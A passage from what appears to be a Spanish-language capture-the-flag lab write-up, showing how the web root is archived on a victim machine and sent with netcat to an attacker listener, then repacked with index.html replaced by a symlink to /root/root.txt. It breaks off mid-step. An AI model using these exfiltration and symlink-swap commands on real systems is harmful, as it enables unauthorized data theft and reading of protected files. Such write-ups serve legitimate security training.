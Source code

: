 #### Modificacion del comprimido {-}

1. Creamos un comprimido de 
```bash
 /var/www/html 
```


    ```bash
    cd /dev/shm
    tar -zcvf comprimido.tar /var/www/html
    ```

1. Preparamos en la maquina de atacante para recibir el comprimido

    ```bash
    nc -nlvp 443 > comprimido.tar
    ```

1. Enviamos el comprimido desde la maquina victima

    ```bash
    nc 10.10.14.8 443 < comprimido.tar
    ```

Ahora que tenemos el comprimido en la maquina de atacante, vamos a cambiar su contenido

1. descomprimimos el ficher 
```bash
 .tar 
```


    ```bash
    tar -xf comprimido.tar
    ```

1. Modificamos el ficher 
```bash
 index.html 
```


    ```bash
    cd var/www/html
    rm index.html
    ln -s -f /root/root.txt index.html
    ```

1. creamos un nuevo comprimido

    ```bash
    cd ../../..
    tar -zcvf comprimido.tar var/www/html
    ```

1. enviamos el comprimido a la maquina victima

    - en la maquina de atacante
